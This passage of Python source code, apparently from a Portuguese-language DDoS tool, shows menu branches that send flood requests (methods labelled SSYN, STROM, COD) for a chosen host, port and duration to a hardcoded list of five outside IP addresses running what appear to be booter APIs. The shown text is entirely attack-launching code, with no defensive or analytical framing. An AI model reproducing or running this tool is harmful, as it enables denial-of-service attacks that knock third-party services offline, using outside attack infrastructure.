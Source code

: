```
         atk = ("http://"+x+"/"+api)
         r = requests.get(atk,headers=headers)

         if "Attack Launch On" in r.text:
            while True:
                print (f"[+] ATACK INICIADO EM: {host}")
         else:
              print ("[!] ERROR")
              exit()

elif esc == "6":
     esc = "SSYN"

     api = (f"api.php?&host={host}&port={port}&time={time}&method={esc}")
     ips = ["185.212.47.32","185.158.248.182","176.10.118.226","185.212.47.205","31.214.157.239"]

     for x in ips:
         atk = ("http://"+x+"/"+api)
         r = requests.get(atk, headers=headers)

         if "Attack Launch On" in r.text:
            while True:
                print (f"[+] ATACK INICIADO EM: {host}")
         else:
              print ("[!] ERROR")
              exit()

elif esc == "7":
     esc = "STROM"

     api = (f"api.php?&host={host}&port={port}&time={time}&method={esc}")
     ips = ["185.212.47.32","185.158.248.182","176.10.118.226","185.212.47.205","31.214.157.239"]
     
     for x in ips:
         atk = ("http://"+x+"/"+api)
         r = requests.get(atk, headers=headers)

         if "Attack Launch On" in r.text:
            while True:
                print (f"[+] ATACK INICIADO EM: {host}")
         else:
              print ("[!] ERROR")
              exit()

elif esc == "8":
     esc = "COD"

     api = (f"api.php?&host={host}&port={port}&time={time}&method={esc}")
     ips = ["185.212.47.32","185.158.248.182","176.10.118.226","185.212.47.205","31.214.157.239"]

     for x in ips:
         atk = ("http://"+x+"/"+api)
         r = requests.get(atk, headers=headers)

         if "Attack Launch On" in r.text:
            while True:
                print (f"[+] ATACK INICIADO EM: {host}")
         else:
              print ("[!] ERROR")
              exit()

```
